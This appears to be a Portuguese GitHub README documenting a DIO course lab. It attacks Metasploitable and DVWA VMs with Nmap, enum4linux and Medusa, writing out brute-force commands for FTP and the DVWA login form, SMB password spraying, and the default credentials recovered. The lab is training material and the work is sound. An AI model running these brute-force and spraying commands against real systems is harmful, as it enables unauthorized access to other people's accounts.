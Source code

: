 # Desafio de ataque Kali Linux da DIO

Repositório criado para documentação do desafio realizado da DIO.

## Informações e assuntos gerais

Inicialmente foram apresentados tipos comuns de ataque como: Ataques de dicionário, força bruta ou híbridos (partindo de wordlists porém fazendo modificações adaptáveis); Também foi abordado sobre password spraying que seria o ato de utilizar uma senha da vítima em vários sites e logins.

## Preparação de ambiente e ferramentas

O download e instalação das VMs Kali Linux e Metasploitable que serão utilizados no laboratório foram feitos, assim como instalação/atualização de ferramentas para uso posterior como: Ncrack, John the Ripper, WPScan, Patator, Hydra, e Nmap. Todas sendo baseadas em quebra de usuário e senhas sendo algumas com certos ajustes finos visando fugir de detecções.

## Verificação e enumeração

Procedimentos de verificação de conexão e enumeração foram feitos como:

Pingar as máquinas entre si utilizando o comando:

> ping -c 4 192.168.0.X

sendo X referente a máquina local da **minha** rede.

Verificação de versão, portas e serviços abertos, utilizando Nmap na máquina alvo:

> nmap -sV -p 21,22,80,443,139 192.168.0.X

Tentativa de conexão com ftp para verificar situaçao do serviço:

> ftp 192.168.0.X

## Entrando em ação com Medusa

Nos tópicos abaixo foram feitos ataques em ambiente controlado tanto em rede local quanto ambiente web.

### Tentativa de ataque em máquina local

Para intrusão na máquina, foi escolhido o programa **Medusa**. Utilizando listas de usuários e senhas já prontas, o comando utilizado foi:

> medusa -h 192.168.0.X -U usuarios.txt -P senhas.txt -M ftp -t 4

Após um certo tempo de processo o aplicativo retorna sucesso exibindo as credenciais:

> User: msfadmin / Password: msfadmin

### Tentativa de ataque no DVWA

Para acesso do sistema web foi inserido o endereço:

> 192.168.0.X/dvwa/login.php

Ao tentar efetuar uma tentativa de login, analisando através das ferramentas de desenvolvedor em Network>Request é possível obter os parâmetros que o servidor utiliza como entrada e confirmação de login bem sucedido ou não.

> "username:" "password:" "Login:"

Utilizando novamente o programa Medusa, a tentativa de ataque automatizada foi feita utilizando novamente wordlists prontas de usuários e senhas, segue comando utilizado:

> medusa -h 192.168.0.X -U usuarios.txt -P senhas.txt -M http \
> -m PAGE: '/dvwa/login.php' \
> -m FORM: 'username=^USER^&password=^PASS^&Login=Login' \
> -m 'FAIL=Login failed' -t 4

Após processamento, foi retornado como sucesso o login:

> "username=admin" e "password=password"

## Exploração de SMB (Server Message Block)

O SMB é um serviço windows muito importante que tem como função o compartilhamento de arquivos, pastas, e impressoras. Também autenticação de usuários e comunicação de maquinas windows e linux.

Após um suposto acesso a rede interna, foi "descoberto" um servidor SMB ativo e os proximos passos foram descobrir usuários existentes e fazer um ataque brute force silencioso.

### Enum4linux

Para enumeração foi feita uma varredura utilizando o **enum4linux** com o seguinte comando:

> enum4linux -a 192.168.0.X | tee enum4_output.txt

Após processamento e exportação do resultado, é possivel acessá-lo com:

> less enum4_output.txt

### Ataque com Password Spraying!

A próxima etapa foi efetuar um password spraying em todos os usuários obtidos com uma lista de senhas.A finalidade é obter acesso ao sistema sem que cause tanto ruído comparado a um brute force padrão. Para isso a mesma lista de senhas usada anteriormente (senhas.txt) e uma lista de usuarios descoberta na enumeração (usuarios1.txt) foi utilizada.

Novamente com Medusa foi feita a tentativa de ataque pelo comando:

> medusa -h 192.168.0.X -U usuarios1.txt -P senhas.txt -M smbnt -t 2 -T 50

### Verificando credenciais obtidas

Seguindo após a finalização do processo da Medusa, uma tentativa de login foi feita usando as credenciais obtidas.

> smbclient -L //192.168.0.X -U msfadmin
> (senha solicitada) msfadmin

Acesso liberado!
